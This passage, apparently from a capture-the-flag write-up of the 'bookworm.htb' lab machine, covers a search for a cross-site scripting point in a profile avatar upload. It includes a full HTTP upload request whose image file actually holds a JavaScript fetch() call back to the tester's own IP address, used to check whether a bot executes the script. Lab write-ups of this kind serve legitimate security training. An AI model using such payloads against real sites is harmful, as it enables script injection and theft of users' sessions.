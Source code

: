 Interestingly, when we send the above request, we would get a `base64` encoded cookie which indicates that our avatar is loaded, which might be our XSS point:

<figure><img src="../../.gitbook/assets/image (10) (10).png" alt=""><figcaption></figcaption></figure>

We can test this first by updating our profile picture with the following request:

```http
POST /profile/avatar HTTP/1.1
Host: bookworm.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7893868742127952433304288570
Content-Length: 262
Origin: http://bookworm.htb
Connection: close
Referer: http://bookworm.htb/profile
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6InRlc3QiLCJhdmF0YXIiOiIvc3RhdGljL2ltZy91c2VyLnBuZyJ9fQ==; session.sig=eNrnjBHPf1vWoX6kzmk2xB4dWdM
Upgrade-Insecure-Requests: 1

-----------------------------7893868742127952433304288570
Content-Disposition: form-data; name="avatar"; filename="test.jpg"
Content-Type: image/jpeg



fetch("http://10.10.14.34/?profilebotcallback")
-----------------------------7893868742127952433304288570--
```

When we refresh our `/profile` page, we can see that our image is located at a certain static directory:

<figure><img src="../../.gitbook/assets/image (696) (1).png" alt=""><figcaption></figcaption></figure>
